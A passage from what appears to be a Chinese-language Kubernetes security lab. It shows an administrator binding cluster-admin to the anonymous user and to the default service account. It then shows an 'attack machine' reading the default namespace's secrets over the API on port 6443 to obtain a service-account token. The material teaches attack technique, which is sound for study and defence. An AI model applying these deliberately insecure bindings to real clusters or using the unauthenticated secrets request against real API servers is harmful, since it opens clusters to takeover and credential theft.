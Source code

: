 - 当system:anonymous用户被k8s管理员绑定到cluster-admin的集群角色时，再来访问api-server的6443端口。即可看到能访问的api内容：（有些时候用户可能会有通过api接口查看资源的需求，集群管理员可能会图省事直接给匿名用户system:anonymous开放cluster-admin权限，即这种场景）

  ~~~sh
  #集群管理员操作
  kubectl create clusterrolebinding anno-admin --clusterrole=cluster-admin --user=system:anonymous
  #https://172.16.183.75:6443/api/v1/namespaces/kube-system
  ~~~

- 给system:anonymous用户绑定了cluster-admin的权限之后，调用接口的用户如果想操作，还得给指定ns的默认sa（每个ns都有一个默认sa叫default）绑定一个token。比如default下面的sa，默认token是空的。这个token仅有authentication的作用，拿着这个token，api-server就认为你是这个sa

  ~~~sh
  kubectl get sa -n default
  kubectl describe sa default -n default
  Name:                default
  Namespace:           default
  Labels:              <none>
  Annotations:         <none>
  Image pull secrets:  <none>
  Mountable secrets:   <none>
  Tokens:              <none>
  Events:              <none>
  ~~~

- 绑定token到sa：dafault

  ~~~yaml
  #集群管理员操作
  tee secret-default.yaml <<'EOF'
  apiVersion: v1
  kind: Secret
  type: kubernetes.io/service-account-token
  metadata:
    name: default-sa
    namespace: default
    annotations:
      kubernetes.io/service-account.name: default
  EOF
  kubectl apply -f secret-default.yaml
  ~~~

- 给sa赋权

  ~~~sh
  #集群管理员操作
  kubectl create clusterrolebinding default-admin --clusterrole=cluster-admin --user=system:serviceaccount:default:default
  ~~~

- 再去通过接口看default这个ns的secret，就能获取到token了

  ~~~sh
  #攻击机上操作
  https://172.16.183.75:6443/api/v1/namespaces/default/secrets
  #...
         "token": "ZXl...UmV3"
        },
        "type": "kubernetes.io/service-account-token"
      }
    ]
  }
  #...
  ~~~
